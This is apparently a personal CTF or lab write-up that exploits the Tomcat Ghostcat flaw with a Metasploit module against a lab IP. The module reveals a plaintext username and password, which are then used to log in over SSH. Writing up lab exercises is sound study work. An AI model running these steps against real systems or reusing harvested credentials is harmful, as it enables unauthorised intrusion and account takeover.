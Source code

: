 # Exploitation
---
- **Using metasploit:**
	- `use admin/http/tomcat_ghostcat`
	- `set rhosts 10.10.243.199`
	- `run`
	- ![[Pasted image 20250502164008.png]]
- Reveals the crendentials:
	- ![[Pasted image 20250502164029.png]]
	- `skyfuck`: `8730281lkjlkjdqlksalks`

# SSH to login as `skyfuck`
---
- `ssh skyfuck@10.10.243.199`
- ![[Pasted image 20250502164307.png]]
- 